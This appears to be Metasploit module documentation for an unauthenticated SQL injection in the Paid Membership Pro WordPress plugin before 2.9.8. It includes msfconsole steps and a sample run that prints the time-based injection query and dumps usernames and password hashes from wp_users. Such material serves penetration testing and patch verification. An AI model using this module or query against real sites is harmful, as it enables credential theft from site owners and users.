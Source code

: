## Vulnerable Application

Paid Membership Pro, a WordPress plugin,
prior to 2.9.8 is affected by an unauthenticated SQL injection via the
`code` parameter.

The plugin can be downloaded from https://wordpress.org/plugins/paid-memberships-pro/, like
(2.9.7)[https://downloads.wordpress.org/plugin/paid-memberships-pro.2.9.7.zip]

## Verification Steps

1. Install the plugin
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_paid_membership_pro_code_sqli`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Paid Membership Pro 2.9.7 on Wordpress 5.7.5 on Ubuntu 20.04

```
msf > use auxiliary/scanner/http/wp_paid_membership_pro_code_sqli
[*] Using auxiliary/scanner/http/wp_paid_membership_pro_code_sqli
msf auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > set verbose true
verbose => true
msf auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > check

[*] Checking /wp-content/plugins/paid-memberships-pro/readme.txt
[*] Found version 2.9.7 in the plugin
[*] 1.1.1.1:80 - The target appears to be vulnerable.
msf auxiliary(scanner/http/wp_paid_membership_pro_code_sqli) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/paid-memberships-pro/readme.txt
[*] Found version 2.9.7 in the plugin
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[!] Each user will take about 5-10 minutes to enumerate. Be patient.
[*] {SQLi} Executing (select group_concat(NAbWtHUpd) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) NAbWtHUpd from wp_users limit 3) Ip)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
